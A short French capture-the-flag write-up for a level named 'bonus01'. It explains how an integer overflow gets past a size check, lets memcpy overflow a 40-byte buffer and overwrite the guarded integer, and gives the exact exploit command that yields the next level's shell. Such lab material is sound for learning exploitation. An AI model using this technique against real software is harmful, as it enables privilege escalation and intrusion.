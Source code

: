 # bonus01

## Writing the payload

```bash
$ python3 -c 'import struct; print(struct.pack("<I", 1464814662))'
b'FLOW'
```

... ah les batards.

Le programme prend deux input, le premier est converti
en int et doit être inférieur a 10, le second est
mis dans un buffer[40], mais seulement notre premier int*4
charactères.
Finalement, la valeur de l'int doit être égale a 1464814662, soit "FLOW"

Nous allons utiliser un underflow pour passer la valeur de notre choix outre le if(int < 10), en donnant une valeur négative
Nous allons faire en sorte que int*4 = 44, cela correspond a INT_MIN-44/4, soit -2147483637.
On peut alors réasigner la valeur de l'int grace au memcpy() juste après.
Nous allons alors mettre FLOW (1464814662), dans notre second input jusqu'a faire 40 charactères :
```bash
./bonus1 -2147483637 "FLOWFLOWFLOWFLOWFLOWFLOWFLOWFLOWFLOWFLOWFLOW"
$ whoami
bonus2
```
